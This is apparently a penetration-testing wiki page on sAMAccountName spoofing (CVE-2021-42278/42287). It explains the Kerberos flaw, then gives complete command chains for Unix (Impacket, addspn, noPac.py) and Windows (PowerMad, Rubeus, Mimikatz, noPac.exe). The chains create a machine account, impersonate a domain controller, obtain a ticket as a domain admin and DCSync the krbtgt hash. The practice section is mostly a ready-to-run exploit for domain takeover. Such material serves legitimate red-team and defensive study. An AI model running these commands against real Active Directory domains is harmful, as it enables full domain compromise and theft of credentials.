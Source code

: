 ```yaml
---
description: CVE-2021-42278 and CVE-2021-42287
---
```


# sAMAccountName spoofing

## Theory

In November 2021, two vulnerabilities caught the attention of many security researchers as they could allow domain escalation from a standard user.

### CVE-2021-42278 - Name impersonation

Computer accounts should have a trailing `$` in their name (i.e. `sAMAccountName` attribute) but no validation process existed to make sure of it. Abused in combination with CVE-2021-42287, it allowed attackers to impersonate domain controller accounts.

### CVE-2021-42287 - KDC bamboozling

When requesting a Service Ticket, presenting a TGT is required first. When the service ticket is asked for is not found by the KDC, the KDC automatically searches again with a trailing `$`. What happens is that if a TGT is obtained for `bob`, and the `bob` user gets removed, using that TGT to request a service ticket for another user to himself (S4U2self) will result in the KDC looking for `bob$` in AD. If the domain controller account `bob$` exists, then `bob` (the user) just obtained a service ticket for `bob$` (the domain controller account) as any other user :exploding\_head:.

{% hint style="success" %}
As Elad Shamir said in his article [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#solving-a-sensitive-problem), "S4U2Self works for a user marked as sensitive for delegation and a member of the Protected Users group".
{% endhint %}

## Practice

### Machine Account

The ability to edit a machine account's `sAMAccountName` and `servicePrincipalName` attributes is a requirement to the attack chain. The easiest way this can be achieved is by creating a computer account (e.g. by leveraging the [MachineAccountQuota](../domain-settings/machineaccountquota.md) domain-level attribute if it's greater than 0). The creator of the new machine account has enough privileges to edit its attributes. Alternatively, taking control over the owner/creator of a computer account should do the job.

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute of any value that points to its name (e.g. `host/machine.domain.local`, `RestrictedKrbHost/machine.domain.local`)
2. Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$` -> [CVE-2021-42278](samaccountname-spoofing.md#cve-2021-42278-name-impersonation)
3. Request a TGT for the controlled machine account
4. Reset the controlled machine account `sAMAccountName` to its old value (or anything else different than the Domain Controller's name without the trailing `$`)
5. Request a service ticket with S4U2self by presenting the TGT obtained before -> [CVE-2021-42287](samaccountname-spoofing.md#cve-2021-42287-kdc-lookup)
6. Get access to the domain controller (i.e. [DCSync](../credentials/dumping/dcsync.md))

{% hint style="warning" %}
Some of the tools and features that allow exploitation of these vulnerabilities are still in development

* Impacket's getST: [https://github.com/SecureAuthCorp/impacket/pull/1202](https://github.com/SecureAuthCorp/impacket/pull/1202)
* Impacket's renameMachine: [https://github.com/SecureAuthCorp/impacket/pull/1224](https://github.com/SecureAuthCorp/impacket/pull/1224)
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, the steps mentioned above can be conducted with

* [krbelayx](https://github.com/dirkjanm/krbrelayx)'s (Python) addspn script for the manipulation of the computer's SPNs
* [Impacket](https://github.com/SecureAuthCorp/impacket)'s (Python) scripts (addcomputer, renameMachine, getTGT, getST, secretsdump) for all the other operations

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py --clear -t 'ControlledComputer$' -u 'domain\user' -p 'password' 'DomainController.domain.local'

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -altservice 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

[noPac.py](https://github.com/Ridter/noPac) (Python) is an automated alternative that can be used to scan and abuse unpatched targets from a UNIX-like environnment.

```bash
scanner.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP
noPac.py $DOMAIN/$USERNAME:$PASSWORD -dc-ip $DC_IP --impersonate Administrator -dump
```

{% hint style="success" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs, which allows to skip step #1.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
On Windows systems, the steps mentioned above can be conducted with

* [PowerMad](https://github.com/Kevin-Robertson/Powermad/)'s (PowerShell) `New-MachineAccount` and `Set-MachineAccountAttribute` functions for the creation and manipulation of a computer account
* with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) for the requests of Kerberos TGT and Service Ticket
* with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) for the [DCSync](../credentials/dumping/dcsync.md) operation with [`lsadump::dcsync`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcsync)``

```powershell
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject -Identity 'ControlledComputer$' -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```

[noPac](https://github.com/cube0x0/noPac) (C#) is an automated alternative that can be used to scan and abuse unpatched targets.

```powershell
noPac.exe scan -domain domain.local -user "lowpriv" -pass "lowpriv"
noPac.exe -domain mcafeelab.local -user "lowpriv" -pass "lowpriv" /dc dc.domain.local /mAccount pillemann11 /mPassword pilleman11 /service ldaps /ptt /impersonate Administrator
(mimikatz) lsadump::dcsync /domain:mcafeelab.local /all
```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
In the screenshot below, the `-spn` argument is used in the `getST.py` command. The option is to be replaced with `-altservice`.
{% endhint %}

![](<../../../.gitbook/assets/samaccountname spoofing.png>)

### User account

An alternative to using computer accounts is to have enough permissions against a user account (cf. [Access Controls abuse](../dacl/)) to edit its `sAMAccountName` attribute (i.e. `WriteProperty` on the attribute, or on the « general information » or « public information » property sets, or `GenericWrite`, or `GenericAll`).

This attack path also requires knowledge of the user account password or hash (to obtain a TGT), which can be obtained (or set) in many ways (e.g. [Targeted Kerberoasting](../dacl/targeted-kerberoasting.md), [Shadow Credentials](shadow-credentials.md), [Forced Password Change](../dacl/forcechangepassword.md)).

Appart from the computer account creation and SPNs manipulation, the exploitation steps are the same as with a [machine account](samaccountname-spoofing.md#machine-account). If the account has SPNs that point to its name, they will have to be removed for the renaming operation to work.

## Resources

{% embed url="https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html" %}

{% embed url="https://exploit.ph/more-samaccountname-impersonation.html" %}

{% embed url="https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing" %}

{% embed url="https://twitter.com/snovvcrash/status/1471829627765239816" %}
sAMAccountName exploitation through assembly execution
{% endembed %}
